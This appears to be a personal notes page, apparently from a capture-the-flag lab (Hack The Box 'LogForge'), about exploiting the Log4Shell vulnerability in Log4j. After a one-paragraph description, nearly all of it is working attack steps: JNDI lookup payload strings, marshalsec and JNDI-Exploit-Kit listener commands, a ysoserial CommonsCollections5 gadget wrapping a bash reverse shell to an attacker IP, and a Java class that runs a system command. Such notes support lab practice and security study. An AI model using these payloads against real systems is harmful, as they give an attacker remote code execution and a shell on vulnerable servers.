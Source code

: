 ```yaml
---
title: Log4Shell
date: 2022-01-01
categories:
  - Notes
tags:
  - Log4j
  - ysoserial
  - marshalsec

excerpt_separator: <!--more-->
---
```


<p>The widely-used java logging library, Log4j, has an unauthenticated remote code execution (RCE) and denial of service vulnerability if a user-controlled string is logged. This could allow the attacker full control of the affected server or allow an attacker to conduct a denial of service attack.</p>


<!--more-->

## Log4shell

### Setting up LDAP server using Marshalsec
- `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "https://10.10.10.10:8888/#log4jrce"`

#### Payload
- `${jndi:ldap://10.10.14.2:1337/a}` 
- `${jndi:ldap://10.10.14.2:1337/${sys:java.class.path} or ${java:version} or ${java:os}}` **_or can be replaced with .... to do nested thingy_**

#### Creating serialized payload using ysoserial
- [ysoserial-modified](https://github.com/pimps/ysoserial-modified)
   - `java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.6/9002 0>&1' > ~/htb/logforge/ysoserial.ser` **_Creates a serialized payload_**

#### Set up JNDI Listener using JNDI-Exploit-Kit
- [JNDI-exploit-kit](https://github.com/pimps/JNDI-Exploit-Kit)
   - `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.6:1389 -P ~/htb/logforge/ysoserial.ser` **_Listens to port 1389 then sends ysoserial.ser_**
   - after running ysoserial-modified we will get links for different versions for jdk to try out. `${jndi:ldap://10.10.14.6:1389/vojbuj}`

#### Using ysoserial setup a JRMPListener that automatically sends CommonsCollections5 payload
- Using JRMPListener to send CommonsCollections `java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsCollections5 "**_CMD_**"` **_this will set up a listener listening on port 1337. send your payload `${jndi:rmi://10.10.10.10:1337/a}` and should receive something. 

#### Example Class
```Java 
public class Log4jRCE {
    static {
        try {
            String [] cmd={"touch", "/tmp/TEST"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

